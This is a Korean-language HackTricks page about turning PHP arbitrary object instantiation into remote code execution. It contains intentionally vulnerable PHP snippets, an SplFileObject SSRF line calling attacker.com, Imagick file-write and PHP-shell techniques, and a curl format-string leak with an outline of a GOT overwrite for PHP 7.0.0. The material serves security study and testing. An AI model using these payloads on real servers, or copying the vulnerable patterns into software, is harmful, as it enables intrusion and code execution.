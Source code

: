 # PHP - RCE abusing object creation: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

이는 기본적으로 [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)의 요약입니다.

## 소개

예를 들어 `new $_GET["a"]($_GET["a"])` 와 같은 임의의 객체 생성은 Remote Code Execution (RCE)로 이어질 수 있으며, 자세한 내용은 [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 설명되어 있습니다. 이 문서는 RCE를 달성하기 위한 다양한 전략을 강조합니다.

## RCE via Custom Classes or Autoloading

문법 `new $a($b)` 는 객체를 인스턴스화하는 데 사용되며, **`$a`** 는 클래스 이름을 나타내고 **`$b`** 는 생성자에 전달되는 첫 번째 인수입니다. 이러한 변수들은 GET/POST와 같은 사용자 입력에서 가져올 수 있으며, 문자열이나 배열일 수 있고, JSON에서는 다른 타입으로 나타날 수 있습니다.

아래 코드 스니펫을 살펴보자:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
이 경우 `$a`를 `App` 또는 `App2`로 설정하고 `$b`를 시스템 명령(예: `uname -a`)으로 설정하면 해당 명령이 실행됩니다.

**Autoloading functions**는 그러한 클래스들에 직접 접근할 수 없을 때 악용될 수 있습니다. 이 함수들은 필요할 때 파일에서 클래스를 자동으로 로드하며 `spl_autoload_register` 또는 `__autoload`를 사용하여 정의됩니다:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
오토로딩의 동작은 PHP 버전별로 달라 RCE 가능성이 달라진다.

## RCE via 내장 클래스

커스텀 클래스나 오토로더가 없을 경우, **내장 PHP 클래스**만으로도 RCE에 충분할 수 있다. 이 클래스들의 수는 PHP 버전과 확장에 따라 대략 100에서 200개 사이이다. `get_declared_classes()`로 목록을 확인할 수 있다.

관심 있는 생성자는 리플렉션 API로 식별할 수 있으며, 다음 예제와 링크 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)에서 확인할 수 있다.

**RCE via 특정 메서드에는 다음이 포함된다:**

### **SSRF + Phar Deserialization**

`SplFileObject` 클래스는 생성자를 통해 SSRF를 유발할 수 있으며, 임의의 URL로의 연결을 허용한다:
```php
new SplFileObject('http://attacker.com/');
```
SSRF는 Phar 프로토콜을 사용하여 PHP 8.0 이전 버전에서 deserialization 공격으로 이어질 수 있습니다.

### **PDOs 악용**

PDO 클래스의 생성자는 DSN 문자열을 통해 데이터베이스에 연결할 수 있게 해주며, 잠재적으로 파일 생성이나 기타 상호작용을 가능하게 합니다:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

libxml2 버전에 따라, PHP의 5.3.22 및 5.4.12까지의 버전은 `SoapClient` 및 `SimpleXMLElement` 생성자를 통한 XXE 공격에 취약했습니다.

## Imagick Extension을 통한 RCE

프로젝트의 **의존성** 분석에서, 새로운 객체를 인스턴스화함으로써 **Imagick**이 **command execution**에 활용될 수 있음이 발견되었습니다. 이는 취약점 악용의 기회를 제공합니다.

### VID parser

VID parser가 파일시스템의 임의 경로에 콘텐츠를 쓸 수 있는 기능이 확인되었습니다. 이는 웹에서 접근 가능한 디렉터리에 PHP 쉘을 배치하여 Remote Code Execution (RCE)을 달성할 수 있음을 의미합니다.

#### VID Parser + File Upload

PHP가 업로드된 파일을 일시적으로 `/tmp/phpXXXXXX`에 저장한다는 점을 이용할 수 있습니다. Imagick의 VID parser는 **msl** 프로토콜을 사용하여 파일 경로의 와일드카드를 처리할 수 있어, 임시 파일을 원하는 위치로 전송하는 것이 가능합니다. 이 방법은 파일시스템 내에서 임의 파일 쓰기를 달성하는 또 다른 방식을 제공합니다.

### PHP Crash + Brute Force

[**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 설명된 방법은 삭제되기 전에 서버 크래시를 유발하는 파일을 업로드하는 것을 포함합니다. 임시 파일 이름을 무차별 대입으로 찾으면 Imagick이 임의의 PHP 코드를 실행할 수 있게 됩니다. 다만 이 기법은 오래된 버전의 ImageMagick에서만 효과적이었던 것으로 확인되었습니다.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

사용자 입력이 클래스 이름을 제어할 때(예: `new $_GET['model']()`), PHP 7.0.0에서는 `Throwable` 리팩토링 중 일시적인 버그가 발생하여 엔진이 클래스 이름을 해석하는 과정에서 이를 printf 형식 문자열로 잘못 처리했습니다. 이로 인해 PHP 내에서 고전적인 printf 스타일의 원시 기능들을 활용할 수 있게 되었는데, 예컨대 `%p`로 leak하거나, 너비 지정자로 쓰기 횟수를 제어하고, `%n`으로 프로세스 내 포인터(예: ELF 빌드의 GOT 엔트리)에 임의 쓰기를 수행할 수 있습니다.

최소 재현 취약 패턴:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
공격 개요 (참고 출처):
- Leak 주소를 클래스 이름의 `%p`로 노출시켜 쓰기 가능한 타깃을 찾음:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- 위치 매개변수(positional parameters)와 너비 지정자(width specifiers)를 사용해 정확한 바이트 수를 설정한 다음 `%n`으로 그 값을 스택에서 접근 가능한 주소에 씁니다. 목적은 GOT 슬롯(예: `free`)을 겨냥해 부분적으로 덮어써 `system`으로 연결하는 것입니다.
- 쉘 파이프가 포함된 클래스 이름을 전달하여 하이재킹된 함수(hijacked function)를 트리거해 `system("id")`에 도달시킵니다.

참고:
- PHP 7.0.0에서만 동작(버그 [#71105](https://bugs.php.net/bug.php?id=71105)); 이후 릴리스에서 수정됨. 임의의 클래스 인스턴스화가 가능한 경우 심각도: 치명적.
- 일반적인 페이로드는 스택을 탐색하기 위해 많은 `%p`를 연쇄하고, 그 다음 `%.<width>d%<pos>$n`으로 부분 덮어쓰기를 수행합니다.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
